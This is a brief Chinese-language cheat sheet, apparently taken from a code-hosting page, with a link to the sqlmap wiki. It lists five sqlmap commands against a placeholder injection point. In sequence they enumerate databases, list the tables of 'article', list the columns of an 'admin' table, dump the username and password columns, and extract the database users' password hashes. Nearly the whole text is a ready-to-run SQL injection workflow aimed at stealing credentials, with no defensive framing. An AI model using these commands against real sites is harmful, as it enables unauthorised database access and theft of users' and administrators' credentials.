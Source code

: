 

https://github.com/sqlmapproject/sqlmap/wiki/Introduction

注入工具：sqlmap:python27:

1.判断库名：article

sqlmap.py -u "注入点" --dbs

2.判断表名

sqlmap.py -u "注入点" -D article --tables

3.判断列名

sqlmap.py -u "注入点" -D article -T admin --columns

4.判断值：

sqlmap.py -u "注入点" -D article -T admin -C username,password --dump

5.判断连接数据库用户名和密码

sqlmap.py -u "注入点"  --passwords

